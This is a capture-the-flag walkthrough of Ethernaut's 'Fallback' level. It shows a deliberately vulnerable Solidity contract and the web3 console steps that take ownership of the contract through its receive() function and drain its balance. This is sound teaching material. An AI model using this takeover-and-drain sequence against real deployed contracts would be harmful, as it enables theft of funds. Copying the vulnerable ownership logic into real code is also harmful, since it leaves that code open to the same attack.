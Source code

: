 ```yaml
---
description: fallback() function and receive() function
---
```


# 1 - Fallback

Ethernaut Level1: [Fallback](https://ethernaut.openzeppelin.com/level/0x2a24869323C0B13Dff24E196Ba072dC790D52479)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Goal of this level

* claim ownership of the contract
* reduce its balance to 0

<details>

<summary>Key to solve this problem  🔑</summary>

using `recieve` function

</details>

### What you should know before

* Sending transactions using `web3.js` **** \
  ****-> see [here](https://stackoverflow.com/questions/52740950/how-to-send-wei-eth-to-contract-address-using-truffle-javascript-test)
* Understanding concept of `fallback()` and `receive()` function \
  \-> see [here](https://www.youtube.com/watch?v=CMVC6Tp9gq4)

## Walkthrough

### 1. Claming Ownership

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value; // here
  if(contributions[msg.sender] > contributions[owner]) {
    // can't reach here because of require statement
    owner = msg.sender; 
}
```

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; // and here
}
```

#### 1) contribution

```javascript
// You can send any value between 0 and 0.001 ether
await contract.contribute({ value: 3 });
```

#### 2) receive() function

```javascript
// Here, since there's no require statement,
// you can send any value bigger than 0.
await contract.sendTransaction({ value: 3 });
```

&#x20;&#x20;

### 2. Reducing balance of the contract to 0

```solidity
function withdraw() public onlyOwner {
  payable(owner).transfer(address(this).balance);
}
```

Since now we have **ownership** of the contract, we can **withdraw** all the balance of the contract.

```javascript
await contract.withdraw();
```

Let's check if we successfully drained the contract.

```javascript
await web3.eth.getBalance(contract.address); // 0
```

Done! 😎



